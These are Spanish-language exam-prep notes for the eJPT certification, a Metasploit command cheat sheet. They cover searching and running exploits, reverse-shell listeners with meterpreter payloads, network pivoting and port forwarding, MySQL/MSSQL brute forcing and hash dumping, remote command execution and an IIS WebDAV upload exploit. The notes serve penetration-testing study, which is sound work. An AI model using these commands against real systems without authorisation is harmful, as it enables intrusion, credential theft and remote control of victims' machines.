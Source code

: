 # Metasploit

Propietario: Adrian Gisbert Cabello

Ejecutar metasploit examen eJPT: `service postgresql start && msfconsole`

- Comandos para usar en metasploit:
    - Para abrir metasploit: `msfconsole`
    - Para buscar un exploit: `search NOMBRE DE LA VULNERABILIDAD`
    - Para usar un exploit una vez que tenemos el listado: `use 0`	(cambiar el 0 por el número del exploit que queramos escoger)
    - Para ver las opciones que tiene el script seleccionado: `show options`
    - Para setear las opciones:	`set XXXX`(por ejemplo set LHOST, RHOST, LPORT, RPORT etc.)
    - Para usar un exploit manualmente en nuestra terminal sin usar msfconsole:		***searchsploit <nombre de la vulnerabilidad>***  (`searchsploit sftpd 2.3.4`)		→		***searchsploit -m <número del .py>*** (`searchsploit -m 49757`) → una vez descargado en nuestro directorio podemos hacer un ***nano*** del archivo.py para ver las instrucciones y ejecutarlo con los argumentos que nos pida (`python3 49757.py 1234`). Si solo queremos ver el archivo usar `searchsploit -x 49757`
    - Para logearse a través de la consola de  metasploit: `search ssh_login` | `search mysql_login`
    - Para ver las sesiones creadas una vez logeados: `sessions`
    - Para entrar dentro de una sesión: `sessions 1`(cambiar el número por la sesión a la que queramos entrar) para salir de la sesión pulsamos simultáneamente ***CTRL + Z***
    - Cerrar una sesión de metasploit: `sessions -k 1`(cambiar el número por la sesión que queramos cerrar)
    - Para upgradear una sesión en metasploit y pasarla a meterpreter: `sessions -u 1` ******(cambiar el número por la sesión a la que queramos upgradear)		normalmente se puede elevar si entramos a una sesión con usuarios con permisos de admin
    - Para saber la route_table (direcciones de subredes que hayamos configurado): `route print` o también  `route`
    - Para buscar vulnerabilidades usar el comando ***searchsploit*** <NOMBRE DE LA VULNERABILIDAD> `searchsploit openssh 7.2`
    - Para mediante una reverse shell conectarse a través de metasploit y luego poder upgradear a una sesión meterpreter, primero nos ponemos en modo escucha en metasploit con `use multi/handler`, ponemos el LHOST y LPORT y le damos a `run`. Una vez estamos en escucha, activamos la reverse shell en la máquina víctima y ya tendremos una sesión normal.
    
    Podemos usar un payload para windows: `set payload windows/meterpreter/reverse_tcp` | `set payload linux/x64/meterpreter/reverse_tcp`
    
    Ahora podemos hacer 2 cosas para levear la sesión a una sesión meterpreter:
    
    1. `sessions -u 1` (tenemos que cambiar el 1 por el número de la sesión que queramnos levear)
    
    2. `use shell_to_meterpreter`, ponemos el LHOST, LPORT y la SESSION. (una vez rellenados los datos le damos a `run` y se nos creará una nueva sesión meterpreter)
    
    Para añadir una ip a la tabla de rutas de nuestra máquina atacante y poder ver otros equipos en esas subredes podemos hacerlo de 3 maneras:
    
    1. `use multi/manage/autoroute ----- show options ----- set SESSION X`
    
    2. `run autoroute -s 192.168.X.0/24` ******(aquí pondremos la nueva ip encontrada y su máscara de red, en este caso es /24 porque era 255.255.255.0)
    
    3. Para añadir un segmento de red en meterpreter: `route add 192.168.X.0/24 2` (añadimos la ruta a la sesión 2)
    
    - Para visualizar la tabla de rutas: `route`
    - Para eliminar una ruta en la tabla de rutas: `route del 192.168.X.0/24 2` (borramos una ruta en la sesión 2)
    - Para hacer escaneo de puertos en msfconsole: `use auxiliary/scanner/portscan/tcp` → `show options`	→ `set rhost <ip del equipo en la subred>` → `set ports 1-65000` (si queremos menos puertos y más rápido, p.ej: 1-1000)
    - Para hacer un port_forwarding en meterpreter: `portfwd add -l 2233 -p 445 -r 192.168.224.X`	(significa que por nuestro puerto 2233 de la máquina atacante, veremos el puerto 445 de la máquina víctima
    - Para listar los puertos que hemos hecho port_forwarding: `portfwd list`
        
        Ahora podemos hacer un escaneo en nmap desde el terminal al puerto que hemos añadido: `nmap -p2233 [localhost](http://localhost)` o un escaneo más exaustivo `nmap -sSCV -p2233 localhost`
        

- Escaners en Metasploit para MySQL:
    
    Para ver directorios con permisos de escritura: `use auxiliary/scanner/mysql/mysql_writable_dirs`
    
    `set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt`
    
    `set verbose false`
    
    `set password ''`
    
    `run`
    
    Para dumpear hashes: `use auxiliary/scanner/mysql/mysql_hashdump`
    
    `set username root`
    
    `set password ''`
    
    `exploit`
    

- Con la herramienta metasploit podemos usar los siguientes scripts:
    - Fuerza bruta: `use auxiliary/scanner/mssql/mssql_login`
    - Enumeración en mysql: `use auxiliary/admin/mssql/mssql_enum`
    - Dumpear hashes: `use auxiliary/scanner/mssql/mssql_hashdump`
    - Para saber que privilegios tienen los usuarios: `use auxiliary/admin/mssql/mssql_enum_sql_logins`
    - Para enumerar dominios: `use auxiliary/admin/mssql/mssql_enum_domain_accounts`
    - Ejecución remota de comandos (RCE) con credenciales: `use auxiliary/admin/mssql/mssql_enum_exec`
    
    `set cmd whoami`
    

Exploit para webdav:

`search iis upload`

`use exploit/windows/iis/iis_webdav_upload_asp`

Especificar HttpPassword y HttpUsername del webdav server

[Meterpreter](Metasploit%208f767f4ca730444a8b8922b0263baef1/Meterpreter%203147b7c940a448a499a91d9abe6faf80.md)

[Msfvenom](Metasploit%208f767f4ca730444a8b8922b0263baef1/Msfvenom%2004d305aac65f49f2b66c33cf3de953f5.md)